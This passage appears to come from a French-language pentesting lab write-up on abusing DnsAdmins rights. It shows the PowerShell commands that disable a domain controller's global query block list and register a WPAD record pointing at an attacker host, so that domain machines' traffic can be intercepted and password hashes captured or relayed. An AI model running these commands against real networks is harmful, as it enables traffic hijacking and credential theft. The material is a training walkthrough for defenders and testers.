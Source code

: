 ### <mark style="color:red;">Creating a WPAD Record</mark>

{% hint style="warning" %}
Une autre manière d’abuser des privilèges du groupe DnsAdmins est de créer un enregistrement WPAD. L’appartenance à ce groupe nous donne les droits de désactiver la sécurité de blocage des requêtes globales, qui par défaut bloque cette attaque. Le serveur 2008 a introduit pour la première fois la possibilité d’ajouter à une liste de blocage de requêtes globales sur un serveur DNS. Par défaut, le protocole de découverte automatique de proxy web (WPAD) et le protocole d’adressage automatique de tunnel intra-site (ISATAP) sont sur la liste de blocage des requêtes globales. Ces protocoles sont assez vulnérables au détournement, et tout utilisateur du domaine peut créer un objet ordinateur ou un enregistrement DNS contenant ces noms.

Après avoir désactivé la liste de blocage des requêtes globales et créé un enregistrement WPAD, chaque machine exécutant WPAD avec les paramètres par défaut verra son trafic proxyfié à travers notre machine d’attaque. Nous pourrions utiliser un outil tel que Responder ou Inveigh pour effectuer une usurpation de trafic, et tenter de capturer des empreintes de mots de passe et de les casser hors ligne ou de réaliser une attaque SMBRelay.
{% endhint %}

<mark style="color:green;">**Disabling the Global Query Block List**</mark>

{% code fullWidth="true" %}
```powershell-session
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
{% endcode %}

<mark style="color:green;">**Adding a WPAD Record**</mark>

{% code fullWidth="true" %}
```powershell-session
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
{% endcode %}
